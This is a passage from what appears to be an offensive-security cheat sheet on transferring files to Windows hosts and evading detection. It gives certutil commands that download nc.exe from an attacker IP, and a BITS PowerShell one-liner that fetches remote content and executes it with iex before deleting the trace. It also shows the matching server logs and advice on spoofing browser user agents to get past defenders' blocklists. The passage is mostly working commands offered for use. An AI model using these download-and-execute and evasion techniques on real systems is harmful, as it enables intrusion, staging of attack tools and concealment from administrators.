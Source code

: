 ```bash
certutil -urlcache -split -f http://10.10.10.32/nc.exe 
certutil -verifyctl -split -f http://10.10.10.32/nc.exe
```

#### Certutil - Server

```shell-session
GET /nc.exe HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0
```

### BITS - Client

```powershell
Import-Module bitstransfer;
Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:temp\t;
$r=gc $env:temp\t;
rm $env:temp\t; 
iex $r
```

#### BITS - Server

```shell-session
HEAD /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
User-Agent: Microsoft BITS/7.8
```

# Evading Detection
## Changing User Agent
If diligent administrators or defenders have blacklisted any of these User Agents, [Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.1) contains a UserAgent parameter, which allows for changing the default user agent to one emulating Internet Explorer, Firefox, Chrome...

 Listing out User Agents:
 ```powershell
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl

Name       : InternetExplorer
User Agent : Mozilla/5.0 (compatible; MSIE 9.0; Windows NT; Windows NT 10.0; en-US)

Name       : FireFox
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) Gecko/20100401 Firefox/4.0

Name       : Chrome
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6 (KHTML, like Gecko) Chrome/7.0.500.0
             Safari/534.6

Name       : Opera
User Agent : Opera/9.70 (Windows NT; Windows NT 10.0; en-US) Presto/2.2.1

Name       : Safari
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/533.16 (KHTML, like Gecko) Version/5.0
 ```